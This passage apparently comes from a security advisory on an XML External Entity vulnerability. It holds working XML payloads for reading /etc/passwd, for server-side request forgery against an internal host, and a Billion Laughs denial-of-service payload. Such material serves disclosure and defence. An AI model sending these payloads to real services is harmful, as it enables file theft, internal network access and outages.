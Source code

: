 - **Low integrity impact (I:L)**: While direct data modification is limited, the vulnerability could allow partial modification of data through indirect means in some scenarios.

- **Low availability impact (A:L)**: The Billion Laughs attack vector creates a potential for denial of service through resource exhaustion, though this would likely be limited to the XML processing component rather than the entire system.

# Exploitation Scenarios
**Scenario 1: Local File Inclusion**
An attacker submits the following XML payload to the vulnerable endpoint:

```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<test>&xxe;</test>

```

When processed, the XML parser resolves the external entity by reading the contents of /etc/passwd from the server's file system and includes it in the parsed XML document. The application then processes this data, potentially returning it to the attacker or incorporating it into application logic, effectively disclosing sensitive system information.

**Scenario 2: Server-Side Request Forgery (SSRF)**
An attacker crafts an XML payload targeting internal network resources:

```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "http://internal-network.acmecorp.local/api/sensitive-data">
]>
<test>&xxe;</test>

```

The XML parser resolves this entity by making an HTTP request to the internal network address, which would normally be inaccessible from the outside. This effectively uses the server as a proxy to access internal services, potentially bypassing network segregation and firewall controls.

**Scenario 3: Denial of Service via Billion Laughs Attack**
An attacker submits a specially crafted XML containing recursively defined entities:

```xml
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>

```
